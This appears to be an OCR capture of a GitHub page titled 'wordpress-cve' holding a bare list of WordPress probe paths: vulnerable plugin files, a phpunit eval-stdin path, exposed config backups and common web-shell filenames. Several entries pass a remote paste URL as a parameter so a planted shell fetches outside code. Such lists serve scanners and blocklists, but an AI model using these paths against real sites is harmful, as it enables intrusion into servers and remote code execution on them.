 # wordpress-cve

experts.

/wp-content/plugins/wpdiscuz/themes/default/style-rtl.css

/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php

/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

/wp-content/langar.php

/test.php?Ghost=send

/config.php

/upload.php

/up.php

/wp-includes/small.php

/wp-includes/lfx.php

/wp-content/mu-plugins/db-safe-mode.php

/legion.php

/wp-content/wp-old-index.php?action=login&pass=-1&submit=

/haders.php

/wp-content/plugins/wpconfig.bak.php?act=sf

/wp-content/plugins/ubh/up.php

/wp-includes/css/wp-config.php

/wp-content/plugins/config.bak.php

/wp-content/themes/config.bak.php

/wp-includes/config.bak.php

/wp-content/config.bak.php

/wp-admin/config.bak.php

/config.bak.php

/old-index.php

/wp-includes/css/css.php

/wp-includes/fonts/css.php

/wp-1ogin_bak.php

/wp-content/wp-1ogin_bak.php

/cindex.php

/wp-booking.php

/alfa.php

/alfindex.php

/th3_err0r.php?php=https://rentry.co/yu8xc/raw

/larva.php?idb=https://rentry.co/yu8xc/raw

/wpindex.php?idb=https://rentry.co/yu8xc/raw

/xmlrp.php?url=https://rentry.co/yu8xc/raw

/wp-content/plugins/ioptimization/IOptimize.php?rchk

/wp-content/db_cache.php

/wp-content/plugins/backup_index.php

/boom.php?x

/?3x=3x

/index.php?3x=3x

/admin.php

/wp-content/plugins/t_file_wp/t_file_wp.php?test=hello

/moduless.php

/style.php

